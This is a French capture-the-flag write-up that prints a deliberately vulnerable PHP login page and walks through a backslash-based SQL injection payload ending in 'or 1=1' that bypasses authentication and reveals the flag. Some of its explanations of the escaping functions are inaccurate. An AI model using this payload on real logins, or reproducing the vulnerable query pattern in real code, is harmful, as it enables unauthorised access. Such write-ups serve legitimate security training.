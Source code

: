 # Web 100 - Super Query Login v2

Une nouvelle épreuve avec une injection SQL, la source du challenge est disponible:
```php
<!DOCTYPE html>
<html>
<head>
<title>SQLi</title>
</head>
<body>
<p>Bypass this auth !<br><a href="?viewsource">source</a></p>
<form action="" method="POST">
Login: <input type="text" name="login"><br>
Passw: <input type="password" name="password"><br>
<input type="submit" value="Connection">
</form>
<?php
if (isset($_POST['login']) && isset($_POST['password'])) {
require('config.php');
$login = stripslashes(htmlentities($_POST['login'], ENT_QUOTES)); **[1]**

$pass = stripslashes(htmlentities($_POST['password'], ENT_QUOTES)); **[2]**


$sql = "SELECT * FROM web1_users WHERE login = '" . $login . "' AND password = '" . $pass . "' ";** [3]**
$result = mysql_query($sql) or die(mysql_error());
if( mysql_num_rows($result) == 1) {
$data = mysql_fetch_array($result);
echo "You can valid with <b>".$data['password']."</b>";
}
else {
echo "<b>Wrong login/password !</b>";
}
}
?>
</body>
</html>```


En [1] et [2] on a la fonction htmlentities($var, ENT_QUOTES) qui échappe les quotes (‘) et les
guillemets (“). 
Si pour le login on soumet 
> ‘or 1=1 #

, le login après avoir été passé dans htmlentities aura
la valeur \’or 1=1 # et notre injection ne fonctionnera pas.

L’idée ici c’est de profiter que l’on peut manipuler les variables $login ET $pass.
On va alors échapper le guillemet de fermeture de $login: \

La requête SQL [3] devient alors:
```sql
SELECT * FROM chall1_users WHERE login = '\' AND password = 'toto'
```
En vert la partie qui sera interprétée comme le login et en rouge notre champ d’exploitation.
Cependant la variable $login est aussi passée dans la fonction stripslashes() qui a pour effet d’échapper
les back slashes. 
Il nous suffit d’injecter comme ceci: \ \ ce qui nous donnera:
```sql
SELECT * FROM chall1_users WHERE login = '\\\' AND password = 'toto'
```

L’injection finale pour se connecter est la suivante.

```sql
login=\\ &password= or 1=1 limit 1 -- a-

```
On obtient ensuite le flag : **ese{Htmlentities_bypass}**
